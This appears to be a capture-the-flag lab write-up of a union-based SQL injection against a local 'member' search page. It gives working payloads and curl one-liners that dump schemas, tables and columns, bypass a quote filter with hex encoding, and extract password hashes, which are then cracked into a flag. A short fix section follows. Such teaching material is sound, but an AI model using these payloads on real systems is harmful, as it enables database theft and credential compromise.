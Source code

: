 # Union Based SQL Injection in search member page

## 📖 Vulnerability Explanation
The server uses the URL parameter _id_ to query the database. The input is provided by the user and not sanitized, leading to a potential abuse where SQL statements can be injected to retrieve information (SQLi). 

## ⚙️ Exploitation Process
The methodology we used in this exercise first focuses on gaining situational awareness of the database, and then proceeds to retrieve information.

We decided to present two different methods: one using the input box on the webpage, and the other using ```curl``` in the terminal.

---

**1. Dump databases**

```
0 UNION SELECT 1,schema_name FROM information_schema.schemata; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+1%2Cschema_name+FROM+information_schema.schemata%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.*<br\/>//' | sed 's/<\/pre>//' | grep -v table | awk '{print $3}'
```

---

**2. Dump tables**

```
0 UNION SELECT table_schema,table_name FROM information_schema.tables; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+table_schema%2Ctable_name+FROM+information_schema.tables%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/First name: /\n[+] Database   : /' | sed 's/Surname : /[-] Table name : /' | grep -v table
```

---

**3. Dump columns of table _users_**

We use the hexadecimal representation of the string _"users"_ to bypass the blocked characters, which are single and double quotes.


```
echo -n 'users' | xxd -p
```

```
0 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name=0x7573657273; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+1%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name%3D0x7573657273%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Surname : //' | grep -v 'First name' | grep -v table
```

---

**4. Read the columns _Commentaire_ and _countersign_**

```
0 UNION SELECT Commentaire,countersign FROM Member_Sql_Injection.users; -- -
```

```
curl -s 'http://localhost:9090/?page=member&id=0+UNION+SELECT+Commentaire%2Ccountersign+FROM+Member_Sql_Injection.users%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/First name: /\n[+] Commentaire : /' | sed 's/Surname : /[-] Countersign : /' | grep -v table
```

---

**5. Crack the hash and craft the flag using the steps provided**

To craft the flag, we must follow the instructions found on the last step: _```Decrypt this password -> then lower all the char. Sh256 on it and it's good !```_

![](./CrackStation.png)

```
echo -n 'fortytwo' | sha256sum
```

## 🧰 Additional Resources Used
We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
To protect against SQLi, it is crutial to always sanitize the users' input before querying the database. It is also possible to use an ORM or library to query the database and avoid manual sanitization.

## ☝️🤓 Advanced explanation
In this case, we could get the data from the database on the response page. However, there are many other scenarios that require other techniques to dump the data.

- https://www.acunetix.com/websitesecurity/sql-injection2/

Apart from the channel used to retrieve the data, there are other techniques that can be used to bypass filtering and perform SQLi. We used this as quotes were not working in our injection scenario.

- https://portswigger.net/support/sql-injection-bypassing-common-filters